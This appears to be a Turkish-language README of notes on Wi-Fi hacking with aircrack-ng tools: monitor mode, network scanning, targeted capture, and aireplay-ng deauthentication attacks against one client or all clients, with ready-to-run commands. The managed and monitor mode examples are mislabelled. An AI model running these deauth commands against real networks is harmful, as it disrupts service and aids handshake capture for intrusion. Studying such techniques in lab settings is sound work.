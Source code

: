 ## 🧰 Kablosuz Ağ Araçları ve Komutları

### 🖥️ `ifconfig`
- Mevcut internet bağlantıları ile ilgili detaylı bilgi verir.

### 📶 `iwconfig`
- Mevcut Wi-Fi bağlantıları ile ilgili detaylı bilgi verir.

---

## 🛠️ `airmon-ng` (start/stop) (interface)

### 📡 Managed Mode
- Wi-Fi adaptörünün varsayılan internete bağlanma modudur.
- Örnek:
  ```bash
  airmon-ng start wlan0
  ```

### 🎯 Monitor Mode
- Wi-Fi adaptörünün sadece dinleme ve bilgi toplama modudur.
- Örnek:
  ```bash
  airmon-ng stop wlan0mon
  ```

---

## 🔍 `airodump-ng` (interface)

- Etraftaki modemler hakkında bilgi toplar.

### Gösterilen Terimler:
- 🆔 **BSSID** : Modemin MAC adresi  
- 📉 **PWR** : Modemin Wi-Fi adaptörüne olan sinyal gücü / uzaklığı  
- 📡 **CH** : Modemin kullandığı kanal  
- 🔐 **ENC** : Modemin şifreleme türü  
- 🏷️ **ESSID** : Modem adı

---

## 📄 Hedefli Dinleme (airodump-ng --channel ...)
```bash
airodump-ng --channel 12 --bssid 40:30:20:10 --write txt wlan0mon
```
- Hedef modeme özel bilgi toplar.

### Gösterilen Ek Terimler:
- 🆔 **BSSID** : Modemin MAC adresi  
- 👥 **STATION** : Modeme bağlı cihazların MAC adresleri  
- 📦 **Frames** : Bağlı cihazların gönderdiği/alınan veri paketi sayısı

---

## 🚫 Deauthentication Saldırısı

### 🎯 Belirli Bir Cihaza Yönelik
```bash
aireplay-ng --deauth 1000 -a 40:30:20:10 -c 10:20:30:40 wlan0mon
```
- Belirli bir cihazı modeme bağlıyken düşürür (örneğin handshake yakalamak için)

### 🎯 Tüm Cihazlara Yönelik
```bash
aireplay-ng --deauth 1000 -a 40:30:20:10 wlan0mon
```
- Modeme bağlı tüm cihazları hedef alır
